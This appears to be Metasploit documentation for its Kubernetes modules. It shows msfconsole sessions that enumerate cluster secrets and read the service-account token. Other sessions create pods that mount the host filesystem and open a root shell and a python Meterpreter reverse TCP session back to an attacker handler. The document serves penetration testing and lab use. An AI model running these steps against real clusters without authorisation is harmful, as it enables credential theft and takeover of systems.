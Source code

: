 ## Kubernetes Workflows

Metasploit has modules for both exploitation and enumeration of a Kubernetes cluster. These modules can either run through
a compromised docker container, or external to the cluster if the required APIs are accessible:

- [modules/auxiliary/cloud/kubernetes/enum_kubernetes](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/cloud/kubernetes/enum_kubernetes.md)
- [modules/exploit/multi/kubernetes/exec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/kubernetes/exec.md)

In the future there may be more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```
msf6 > search kubernetes
```

### Lab Environment

A tutorial for setting up a compromisable Kubernetes cluster can be found [here](https://github.com/rapid7/metasploit-framework/tree/master/test/kubernetes)

### Kubernetes Enumeration

Metasploit has support for enumerating the Kubernetes API to extract the following information:

- Version - Enumerate Kubernetes service version, git commit, build date, etc
- Auth - RBAC permission information, i.e. if the token can create pods, read secrets, etc
- Namespaces - Enumerate available namespaces
- Pods - Enumerate currently running pods
- Secrets - Enumerate secrets, including base64 decoding to highlight noteworthy credentials, and storing loot

The `auxiliary/cloud/kubernetes/enum_kubernetes` can be used to pivot through the compromised container to reach
an previously inaccessible Kubernetes API. In this scenario the container's Kubernetes service token will be read from the
file system, and used to authenticate with the Kubernetes API:

If you have a Meterpreter session on a compromised Kubernetes container, the module values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT` module options
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:

```
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
```

If the Kubernetes API is publicly accessible and you have a JWT Token:

```
msf6 > use cloud/kubernetes/enum_kubernetes
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set RHOST https://kubernetes.docker.internal:6443
RHOST => https://kubernetes.docker.internal:6443
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > run
[*] Running module against 127.0.0.1

[+] Kubernetes service version: {"major":"1","minor":"21","gitVersion":"v1.21.2","gitCommit":"092fbfbf53427de67cac1e9fa54aaa09a28371d7","gitTreeState":"clean","buildDate":"2021-06-16T12:53:14Z","goVersion":"go1.16.5","compiler":"gc","platform":"linux/amd64"}
[+] Enumerating namespaces
Namespaces
==========

  #  name
  -  ----
  0  default
  1  kube-node-lease
  2  kube-public
  3  kube-system
  4  kubernetes-dashboard

... etc ...
```

By default the `run` command will enumerate all resources available, but you can also specify which actions you would like to perform:

```
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > show actions

Auxiliary actions:

   Name        Description
   ----        -----------
   all         enumerate all resources
   auth        enumerate auth
   namespace   enumerate namespace
   namespaces  enumerate namespaces
   pod         enumerate pod
   pods        enumerate pods
   secret      enumerate secret
   secrets     enumerate secrets
   version     enumerate version
```

More usage examples:
```
# Configuration
use cloud/kubernetes/enum_kubernetes
set RHOST https://kubernetes.docker.internal:6443
set TOKEN eyJhbGciOiJSUz...

# Enumeration, filtering, and displaying information:
run
namespaces
namespaces name=kube-public
auth
auth output=json
secrets
pods
pod
pod namespace=default name=redis-7fd956df5-sbchb
pod namespace=default name=redis-7fd956df5-sbchb output=json
pod namespace=default name=redis-7fd956df5-sbchb output=table
version
```

### Kubernetes Execution

The `exploit/multi/kubernetes/exec` module will attempt to create a new pod in the specified namespace, as well as mounting the host's filesystem at `/host_mnt` if the required permissions are available. This module can either use websockets for communication, similar to the `kubectl exec --stdin --tty` command, or upload a full Meterpreter payload.

If you have a Meterpreter session on a compromised Kubernetes container with the available permissions, the module values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT` module options
will be gathered from the session host automatically. The `TOKEN` will be read from the mounted `/run/secrets/kubernetes.io/serviceaccount/token` file if available:

```
msf6 exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf6 exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[+] Successfully established the WebSocket
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```

If the Kubernetes API is available remotely, the RHOST values and token can be set manually. In this scenario a token is manually specified, to execute a Python Meterpreter payload within the `thinkphp-67f7c88cc9-tgpfh` pod:

```
msf6 > use exploit/multi/kubernetes/exec
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf6 exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf6 exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf6 exploit(multi/kubernetes/exec) > set TARGET Python
TARGET => Python
msf6 exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/kubernetes/exec) >
```
